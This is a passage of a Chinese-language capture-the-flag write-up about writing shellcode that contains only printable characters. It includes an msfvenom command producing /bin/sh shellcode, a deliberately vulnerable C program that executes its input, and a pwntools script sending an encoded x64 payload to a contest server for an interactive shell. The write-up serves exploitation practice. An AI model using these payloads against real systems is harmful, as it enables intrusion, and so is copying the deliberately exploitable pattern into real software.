 看到 flag 后发现，预期解是利用 `msfvenom` 生成 `shellcode`：

```shell
$ msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/sh" -e x86/alpha_upper BufferRegister=eax
```

### 3

```c
// gcc -m64 -z execstack -fPIE -pie -z now chall3.c -o chall3
int main() {
    char buf[0x400];
    int n, i;
    n = read(0, buf, 0x400);
    if (n <= 0) return 0;
    for (i = 0; i < n; i++) {
        if(buf[i] <32 || buf[i] > 126) return 0;
    }
    ((void(*)(void))buf)();
}
```

本题的限制是 `shellcode` 由可打印字符构成，且基于 x64 平台。这个似乎靠 `msfvenom` 就不行了，但是可以换个工具，用 [shellcode_encoder](https://github.com/ecx86/shellcode_encoder)：

```shell
$ python2 main.py shellcode.bin rax+29
```

即可生成 payload，替换第二题的 payload 即可。注意 `rax+29` 指 shellcode 开始执行的位置。

```python
from pwn import *

context(log_level='DEBUG')

p = remote('202.38.93.241', 10004)
#p=process('./chall3')

p.recvuntil(':')
p.sendline('token') # token

p.send('''PPTAYAXVI31VXXXf-c?f-@`f-@`PZTAYAXVI31VXPP[_Hc4:14:SX-b+e2-( _`5>??_P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-IOF`-A`! 5>_7;P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-<hh)-h`  5n???P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-@{#'-ux @5O6?_P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-@#6p-B 0`5v?_?P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-2 u@-&@@ 5-_?wP^14:WX-????-}`aC-@`_}P_SX- ut*- ,Lv5X_?_P_Hc4:14:SX-Q !0-#@  5s}.?P^14:WX-????-}`aC-@`_}P_SX-8 `$-%`"|5?~}_P^SX-Ma`R-~c`p5-;?=P_AAAA!bt#MvAr*o$$>I`_UXyyi;||s}_r=60d|jcEH(u'&w6~7AM;wy4II+f'Gw+X#e0T|t30Q.$A>6p?'B[A<zDBH)6f0Rj#XO$''')

p.interactive()
```
